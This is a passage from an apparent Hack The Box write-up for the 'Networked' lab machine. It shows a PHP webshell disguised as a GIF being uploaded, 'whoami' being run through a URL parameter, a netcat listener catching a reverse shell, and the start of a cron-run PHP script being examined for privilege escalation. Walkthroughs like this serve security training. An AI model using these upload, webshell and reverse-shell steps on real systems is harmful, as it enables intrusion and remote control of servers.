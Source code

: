```
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
And as a result we get the following message:
```
file uploaded, refresh gallery
```
Now, let's go to photos.php, grab the uploaded file name, go to ```http://10.10.10.146/uploads/10_10_14_24.php.gif?b0d=whoami``` and see if we get code execution:
```
GIF8 apache apache
```
Now that we checked that we have RCE, let's trigger a remote shell
```
root@kali:~/Documents/HTB/Boxes/Networked# nc -lvnp 4444                                                                                                                                                                                    
listening on [any] 4444                          
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 56860                                                                                                                                                                                 
bash: no job control in this shell                                                                                    
bash-4.2$
```

## User
Now that we have a foothold on the box we can look around for directories and interesting files.  
if we navigate to /home/guly/ to grab user.txt we have permission denied. However, in the same directory, we can find interesting files as well:  
```
bash-4.2$ ls
check_attack.php  crontab.guly  user.txt
```
crontab.guly contains the following:  
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```
Now we can suppose that if we manage hijack execution flow using check_attack.php, we will be able to spawn a shell as guly, since the crontab is installed for this user.  
If we open check_attack.php we can see the following:
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
```